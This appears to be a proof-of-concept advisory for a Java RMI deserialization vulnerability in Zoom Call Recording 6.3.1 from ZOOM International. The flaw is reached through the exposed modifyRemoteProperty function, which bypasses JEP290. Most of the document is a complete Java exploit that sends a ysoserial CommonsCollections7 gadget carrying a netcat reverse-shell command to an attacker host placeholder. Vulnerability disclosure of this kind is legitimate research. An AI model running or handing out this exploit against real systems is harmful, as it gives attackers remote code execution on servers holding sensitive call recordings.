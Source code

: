 # Java RMI Deserialization via Direct Object Insertion into Function Arguments

Zoom Call Recording 6.3.1 from [ZOOM International](https://www.zoomint.com/solutions/call-recording) exposes over RMI the function "modifyRemoteProperty".
<br/>
This function can be used to bypass the JEP290 protection and trigger deserialization at the application level.
<br/>

### Proof Of Concept:

The remote stub function "modifyRemoteProperty(String, String, Object)", directly accept objects in its 3rd parameter.
<br/>
We can use the following Java code to serve ysoserial payloads to the application:

```
import java.rmi.NotBoundException; 
import java.rmi.RemoteException; 
import java.rmi.registry.LocateRegistry; 
import java.rmi.registry.Registry; 
import java.util.Properties; 
import ysoserial.payloads.CommonsCollections7; 

interface IRemoteInfoManager extends Remote {
    String modifyRemoteProperty(String str, String str2, Object obj) throws RemoteException;
}

interface IRemoteApplicationCommunicator extends Remote {
    IRemoteInfoManager getRemoteInfoManager() throws RemoteException;
}
 
public class ExploitZoom { 
 
    public static void main(String[] args) throws RemoteException, NotBoundException, Exception { 
         
        String host = "<TARGET_IP>"; 
        int port = 30400; 
         
        Registry registry = LocateRegistry.getRegistry(host, port);     
        IRemoteApplicationCommunicator remoteApplication = (IRemoteApplicationCommunicator) registry.lookup("remoteCallRec"); 
         
        Object payload = new CommonsCollections7().getObject("/usr/bin/nc -e /bin/bash <ATTACKER_IP> 4646");
        Properties props = System.getProperties();
        props.setProperty("org.apache.commons.collections.enableUnsafeSerialization", "true");
        remoteApplication.getRemoteInfoManager().modifyRemoteProperty("Version", "Version", payload); 
     
    } 
     
}
```  

If the exploit is successful, we will receive back a reverse shell on port 4646.

<img src="../Reverse%20Shell.png"/>

### Additional Resources:

[Attacking Java RMI Services After JEP 290](https://mogwailabs.de/blog/2019/03/attacking-java-rmi-services-after-jep-290/)
<br/>
[Ysoserial](https://github.com/frohoff/ysoserial)
